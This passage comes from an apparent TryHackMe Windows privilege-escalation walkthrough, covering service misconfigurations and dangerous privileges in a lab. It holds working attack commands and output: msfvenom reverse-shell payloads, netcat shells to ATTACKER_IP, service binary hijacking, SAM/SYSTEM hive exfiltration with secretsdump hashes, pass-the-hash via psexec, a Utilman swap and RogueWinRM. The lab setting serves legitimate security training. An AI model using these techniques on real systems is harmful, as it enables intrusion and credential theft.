c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

The `BUILTIN\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an `exe-service` payload with `msfvenom` and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```bat
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Once the service gets restarted, your payload should execute:

```bat
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with svcusr2 privileges:

```bash
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

#### Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\tools`. The command to check for the thmservice service DACL is:

```bat
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\Users` group has the **SERVICE_ALL_ACCESS** permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use `wget` to transfer your executable and move it to the desired location. Remember to grant permissions to **Everyone** to execute your payload:

```bat
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using `sc.exe`):

```bat
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```bat
C:\> sc stop THMService
C:\> sc start THMService
```

And we will receive a shell back in our attacker's machine with SYSTEM privileges:

```bash
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```

Go to the Administrator's desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

---------------------------------------------------------------------------------------

#### Get the flag on svcusr1's desktop

First we connect with RDP to the machine

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ xfreerdp /v:10.67.162.106 /cert:ignore /u:thm-unpriv /p:Password321 /h:960 /w:1500 +clipboard 
[12:34:25:592] [73146:73147] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[12:34:25:592] [73146:73147] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
<---snip--->
```

We start by querying the configuration of the vulnerable service

```bat
C:\Users\thm-unpriv> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr1
```

Next, we check the permissions of the binary

```bat
C:\Users\thm-unpriv> icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Note the **Everyone** has modify (M) permission. We can overwrite the file.

Then we create a reverse shell with `msfvenom` and share it via HTTP

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$  msfvenom -p windows/x64/shell_reverse_tcp -f exe-service -o revshell.exe LHOST=tun0 LPORT=12345
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: revshell.exe

┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Donwload it to the target machine with PowerShells `wget` alias

```powershell
PS C:\Users\thm-unpriv> cd C:\PROGRA~2\SYSTEM~1\
PS C:\Program Files (x86)\SystemScheduler> wget http://192.168.187.183/revshell.exe -O revshell.exe
PS C:\Program Files (x86)\SystemScheduler> ls


    Directory: C:\Program Files (x86)\SystemScheduler


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/19/2025  12:39 PM                Events
-a----        5/17/2007   1:47 PM           1150 alarmclock.ico
-a----        8/31/2003  12:06 PM            766 clock.ico
-a----        8/31/2003  12:06 PM          80856 ding.wav
-a----         5/3/2022  11:56 AM             60 Forum.url
-a----         1/8/2009   8:21 PM        1637972 libeay32.dll
-a----       11/16/2004  12:16 AM           9813 License.txt
-a----       12/19/2025  11:28 AM            759 LogFile.txt
-a----       12/19/2025  11:28 AM           1569 LogfileAdvanced.txt
-a----        3/25/2018  10:58 AM         536992 Message.exe
-a----        3/25/2018  10:59 AM         445344 PlaySound.exe
-a----        3/25/2018  10:58 AM          27040 PlayWAV.exe
-a----         5/3/2022  12:04 PM            108 Preferences.ini
-a----        3/25/2018  10:58 AM         485792 Privilege.exe
-a----        3/24/2018  12:09 PM          10100 ReadMe.txt
-a----       12/19/2025  12:46 PM          48640 revshell.exe
-a----        3/25/2018  10:58 AM         112544 RunNow.exe
-a----        3/25/2018  10:59 AM          40352 sc32.exe
-a----        8/31/2003  12:06 PM            766 schedule.ico
-a----        3/25/2018  10:58 AM        1633696 Scheduler.exe
-a----        3/25/2018  10:59 AM         491936 SendKeysHelper.exe
-a----        3/25/2018  10:58 AM         437664 ShowXY.exe
-a----        3/25/2018  10:58 AM         439712 ShutdownGUI.exe
-a----        3/25/2018  10:58 AM         235936 SSAdmin.exe
-a----        3/25/2018  10:58 AM         731552 SSCmd.exe
-a----         1/8/2009   8:12 PM         355446 ssleay32.dll
-a----        3/25/2018  10:58 AM         456608 SSMail.exe
-a----         5/3/2022  11:56 AM           6867 unins000.dat
-a----         5/3/2022  11:56 AM         722597 unins000.exe
-a----         5/3/2022  11:56 AM             54 Website.url
-a----        6/26/2009   5:27 PM           6574 whiteclock.ico
-a----        3/25/2018  10:58 AM          76704 WhoAmI.exe
-a----        5/16/2006   4:49 PM         785042 WSCHEDULER.CHM
-a----        5/16/2006   3:58 PM           2026 WScheduler.cnt
-a----        3/25/2018  10:58 AM         331168 WScheduler.exe
-a----        5/16/2006   4:58 PM         703081 WSCHEDULER.HLP
-a----        3/25/2018  10:58 AM         136096 WSCtrl.exe
-a----        3/25/2018  10:58 AM          98720 WService.exe
-a----        3/25/2018  10:58 AM          68512 WSLogon.exe
-a----        3/25/2018  10:59 AM          33184 WSProc.dll


PS C:\Program Files (x86)\SystemScheduler>
```

We replace the vulnerable service with our reverse shell

```powershell
PS C:\Program Files (x86)\SystemScheduler> move WService.exe WService.old
PS C:\Program Files (x86)\SystemScheduler> move revshell.exe WService.exe
PS C:\Program Files (x86)\SystemScheduler> icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
PS C:\Program Files (x86)\SystemScheduler>
```

We start a netcat listener back at our Kali machine

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...

```

And restart the service

```powershell
PS C:\Program Files (x86)\SystemScheduler> sc.exe stop windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x3e8
PS C:\Program Files (x86)\SystemScheduler> sc.exe start windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 4632
        FLAGS              :
PS C:\Program Files (x86)\SystemScheduler>
```

We now have a connection in our netcat listener and can get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...
connect to [192.168.187.183] from (UNKNOWN) [10.67.162.106] 49941
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>where /R C:\Users flag*
where /R C:\Users flag*
C:\Users\svcusr1\Desktop\flag.txt

C:\Windows\system32>type C:\Users\svcusr1\Desktop\flag.txt
type C:\Users\svcusr1\Desktop\flag.txt
THM{<REDACTED>}
C:\Windows\system32>
```

Answer: `THM{<REDACTED>}`

#### Get the flag on svcusr2's desktop

We start by checking the configuration of the vulnerable service

```bat
C:\Users\thm-unpriv> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

We have an unquoted service path misconfiguration.

Next, we check the permissions of the `C:\MyPrograms` folder

```bat
C:\Users\thm-unpriv> icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

**Users** have the following [permissions](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks):

- **RX**: Read and execute access
- **AD**: Append data/add subdirectory
- **WD**: Write data/add file

We can create a new service file that replaces the old one.

Next, we download our previously created reverse shell again

```powershell
PS C:\Program Files (x86)\SystemScheduler> cd C:\MyPrograms\
PS C:\MyPrograms> wget http://192.168.187.183/revshell.exe -O revshell.exe
PS C:\MyPrograms> ls


    Directory: C:\MyPrograms


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/3/2022   3:16 PM                Disk Sorter Enterprise
d-----         5/3/2022   7:44 PM                THMService
-a----       12/19/2025   1:16 PM          48640 revshell.exe
```

We fix the name and permissions of the reverse shell

```powershell
PS C:\MyPrograms> move revshell.exe Disk.exe
PS C:\MyPrograms> icacls Disk.exe /grant Everyone:F
processed file: Disk.exe
Successfully processed 1 files; Failed processing 0 files
```

Next, we create a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...

```

Then we restart the service

```powershell
PS C:\MyPrograms> sc.exe stop "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\MyPrograms> sc.exe start "disk sorter enterprise"

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 880
        FLAGS              :
PS C:\MyPrograms>
```

As a result, we get a connection at our netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...
connect to [192.168.187.183] from (UNKNOWN) [10.67.162.106] 49948
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>where.exe /R C:\Users flag*
where.exe /R C:\Users flag*
C:\Users\svcusr2\Desktop\flag.txt

C:\Windows\system32>type C:\Users\svcusr2\Desktop\flag.txt
type C:\Users\svcusr2\Desktop\flag.txt
THM{<REDACTED>}
C:\Windows\system32>exit
exit
```

Answer: `THM{<REDACTED>}`

#### Get the flag on the Administrator's desktop

We start by checking the [service access rights](https://learn.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights#access-rights-for-a-service) of the vulnerable service with [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```powershell
PS C:\MyPrograms> C:\tools\AccessChk\accesschk.exe /qlc thmservice

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

thmservice
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
PS C:\MyPrograms>
```

Note that **BUILTIN\Users** have all access rights (**SERVICE_ALL_ACCESS**).

We download another reverse shell and change its permissions

```powershell
PS C:\MyPrograms> wget http://192.168.187.183/revshell.exe -O revshell.exe
PS C:\MyPrograms> icacls revshell.exe /grant Everyone:F
processed file: revshell.exe
Successfully processed 1 files; Failed processing 0 files
PS C:\MyPrograms>
```

Then we update the service configuration

```powershell
PS C:\MyPrograms> sc.exe config THMService binPath= "C:\MyPrograms\revshell.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
PS C:\MyPrograms>
```

create a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...

```

and restart the service

```powershell
PS C:\MyPrograms> sc.exe stop THMService
[SC] ControlService FAILED 1062:

The service has not been started.

PS C:\MyPrograms> sc.exe start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3292
        FLAGS              :
PS C:\MyPrograms>
```

Back at the netcat listener we have a shell and can get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345          
listening on [any] 12345 ...
connect to [192.168.187.183] from (UNKNOWN) [10.67.162.106] 49954
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>where /R C:\Users flag*
where /R C:\Users flag*
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.txt.lnk
C:\Users\Administrator\Desktop\flag.txt
C:\Users\mike.katz\Desktop\flag.txt
C:\Users\svcusr1\Desktop\flag.txt
C:\Users\svcusr2\Desktop\flag.txt
C:\Users\taskusr1\Desktop\flag.txt

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{<REDACTED>}
C:\Windows\system32>
```

Answer: `THM{<REDACTED>}`

### Task 6: Abusing dangerous privileges

#### Windows Privileges

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:

```bat
whoami /priv
```

A complete list of available privileges on Windows systems is available [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.

#### SeBackup / SeRestore

The **SeBackup** and **SeRestore** privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the **SAM** and **SYSTEM** registry hives to extract the local Administrator's password hash.

Log in to the target machine via RDP using the following credentials:

- **User**: THMBackup
- **Password**: CopyMaster555

This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a **command prompt** using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:


Once on the command prompt, we can check our privileges with the following command:

```bat
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

To backup the SAM and SYSTEM hashes, we can use the following commands:

```bat
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:

```bash
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox:

```bat
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

And use impacket to retrieve the users' password hashes:

```bash
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```bash
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

#### SeTakeOwnership

The **SeTakeOwnership** privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

Log in to the target machine via RDP using the following credentials:

- **User**: THMTakeOwnership
- **Password**: TheWorldIsMine2022

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:


Once on the command prompt, we can check our privileges with the following command:

```bat
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:


Since `Utilman` is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

```bat
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over `utilman.exe` you can use the following command:

```bat
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

After this, we will replace `utilman.exe` with a copy of `cmd.exe`:

```bat
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```

To trigger `utilman`, we will lock our screen from the start button:


And finally, proceed to click on the "Ease of Access" button, which runs `utilman.exe` with SYSTEM privileges. Since we replaced it with a `cmd.exe` copy, we will get a command prompt with SYSTEM privileges:


#### SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user `ftp`. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:


There are several reasons why using `ftp`'s token is not the best idea:

- For the files to be served correctly, they would need to be accessible to the `ftp` user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user `ftp`. This adds complexity as we must manually configure specific permissions for each served file/directory.

- For the operating system, all files are accessed by user `ftp`, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it.

- If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the `ftp` user has access.

If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:


Now, if user Ann logs in to the FTP service and given that the `ftp` user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user `ftp` in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.

As attackers, if we manage to take control of a process with **SeImpersonate** or **SeAssignPrimaryToken** privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the **LOCAL SERVICE** and **NETWORK SERVICE ACCOUNTS** already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "**iis apppool\defaultapppool**" for web applications.

To elevate privileges using such accounts, an attacker needs the following:

1. To spawn a process so that users can connect and authenticate to it for impersonation to occur.
2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use **RogueWinRM** exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

`http://10.65.182.60/`

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:


To use **RogueWinRM**, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the `C:\tools\` folder.

The **RogueWinRM** exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has **SeImpersonate** privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

```bash
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the **RogueWinRM** exploit using the following command:

```bat
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```


**Note**: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

```bash
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task.

---------------------------------------------------------------------------------------

#### Get the flag on the Administrator's desktop (SeBackup / SeRestore version)

We start by connecting with RDP to the target machine:

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ export TARGET_IP=10.66.177.75                                                                

┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
